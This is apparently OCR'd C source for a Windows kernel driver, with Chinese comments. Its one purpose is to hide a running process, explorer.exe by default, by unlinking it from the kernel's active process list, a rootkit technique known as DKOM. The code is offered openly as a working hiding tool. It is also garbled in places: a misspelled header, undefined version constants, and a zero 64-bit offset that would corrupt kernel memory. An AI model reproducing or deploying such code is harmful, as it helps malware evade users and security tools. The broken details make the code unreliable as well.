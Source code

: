 
 #include <ntifs.h>  
 #include <ntddk.h>  
 #include <Ntstrsafe.h>
 #include<studio.h>  
  
NTKERNELAPI UCHAR *PsGetProcessImageFileName(PEPROCESS Process);  
  
  
 #ifndef MAX_PATH  
 #define MAX_PATH          260  
 #endif  
  
  
DWORD                   g_OsVersion;                                            //系统版本    
                                                                                //操作系统版本    
 #define WINXP                   51    
 #define WIN81                   63    
 #define WIN10                   100    
  
                                                                                //获取系统版本    
BOOLEAN GetOsVer(void);  
  
  
ULONG_PTR EprocessActiveProcessLinks;  
  
//获取ActiveProcessLinks  
ULONG_PTR GetEprocessActiveProcessLinks();  
  
//隐藏进程  
NTSTATUS HideProcess(ULONG Processid);  
  
//获取进程Processid  
ULONG GetProcessProcessid(char* pProcessName);  
  
VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)  
{  
  
    return;  
}  
  
  
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)  
{  
    NTSTATUS status;  
    DriverObject->DriverUnload = DriverUnload;  
  
    DbgBreakPoint();  
    HideProcess(GetProcessProcessid("explorer.exe"));  
    return STATUS_SUCCESS;  
}  
  
//隐藏进程  
NTSTATUS HideProcess(ULONG Processid)  
{  
    //定义变量  
    KIRQL Kirql;  
    PLIST_ENTRY plistprocsTarge = NULL;  
    PLIST_ENTRY plistprocsSource = NULL;  
    NTSTATUS status;  
    PEPROCESS Process = NULL;  
  
    //参数效验  
    if (Processid <= 4)return STATUS_UNSUCCESSFUL;  
  
    //获取系统  
    if (GetOsVer() == FALSE)return STATUS_UNSUCCESSFUL;  
  
    //获取ActiveProcessLinks  
    if (EprocessActiveProcessLinks == NULL)  
    {  
        EprocessActiveProcessLinks = GetEprocessActiveProcessLinks();  
        if (EprocessActiveProcessLinks == NULL)return STATUS_UNSUCCESSFUL;  
    }  
  
    //获取PEPROCESS  
    status = PsLookupProcessByProcessId(Processid, &Process);  
    if (NT_SUCCESS(status))  
    {  
        plistprocsSource = (PLIST_ENTRY)((ULONG_PTR)Process + EprocessActiveProcessLinks);  
        Kirql = KeRaiseIrqlToDpcLevel();  
        //*((PULONG_PTR)plistprocsSource->Blink) = (ULONG_PTR)plistprocsSource->Flink;  
        //*((PULONG_PTR)plistprocsSource->Flink + 1) = (ULONG_PTR)plistprocsSource->Blink;  
        RemoveEntryList(plistprocsSource);  
        InitializeListHead(plistprocsSource);  
        KeLowerIrql(Kirql);  
        ObfDereferenceObject(Process);  
    }  
    return status;  
}  
  
  
//获取ActiveProcessLinks  
ULONG_PTR GetEprocessActiveProcessLinks()  
{  
    //_EPROCESS   
  
 #ifdef _WIN64  
    EprocessActiveProcessLinks = 0x00;  
 #else  
    switch (g_OsVersion)  
    {  
    case WINXP:  
        EprocessActiveProcessLinks = 0x088;  
        break;  
    case WIN7:  
    case WIN8:  
    case WIN81:  
    case WIN10:  
        EprocessActiveProcessLinks = 0x0b8;  
        break;  
    default:  
        break;  
    }  
 #endif  
  
    return EprocessActiveProcessLinks;  
}  
  
  
//获取进程Processid  
ULONG GetProcessProcessid(char* pProcessName)  
{  
    //参数效验  
    if (MmIsAddressValid(pProcessName) == FALSE)return NULL;  
  
  
    //定义变量  
    PEPROCESS pEprocess = NULL;  
    NTSTATUS ntstatus = STATUS_SUCCESS;  
    UCHAR *szProcessName = NULL;  
    ULONG   Processid = 0;  
  
    for (int i = 4; i < 10000; i = i + 4) //一般来说没有超过100000的PID和TID  
    {  
        //进程ID和返回一个引用指针的过程EPROCESS结构  
        ntstatus = PsLookupProcessByProcessId((HANDLE)i, &pEprocess);  
        if (NT_SUCCESS(ntstatus))//STATUS_INVALID_CID  
        {  
            if (pEprocess != NULL)  
            {  
                //比较进程名  
                szProcessName = PsGetProcessImageFileName(pEprocess);  
                if (szProcessName)  
                {  
                    if (_stricmp((char*)szProcessName, pProcessName) == 0)  
                    {  
                        ObfDereferenceObject(pEprocess);  
                        return (HANDLE)i;  
                          
                    }  
                }  
            }  
            ObfDereferenceObject(pEprocess);  
        }  
    }  
  
    return NULL;  
  
}  
  
//获取系统版本    
BOOLEAN GetOsVer(void)  
{  
  
    ULONG    dwMajorVersion = 0;  
    ULONG    dwMinorVersion = 0;  
    PsGetVersion(&dwMajorVersion, &dwMinorVersion, NULL, NULL);  
    if (dwMajorVersion == 5 && dwMinorVersion == 1)  
        g_OsVersion = WINXP;  
    else if (dwMajorVersion == 6 && dwMinorVersion == 1)  
        g_OsVersion = WIN7;  
    else if (dwMajorVersion == 6 && dwMinorVersion == 2)  
        g_OsVersion = WIN8;  
    else if (dwMajorVersion == 6 && dwMinorVersion == 3)  
        g_OsVersion = WIN81;  
    else if (dwMajorVersion == 10 && dwMinorVersion == 0)  
        g_OsVersion = WIN10;  
    else  
    {  
        g_OsVersion = 0;  
        KdPrint(("未知版本"));  
        return FALSE;  
    }  
  
    return TRUE;  
}  
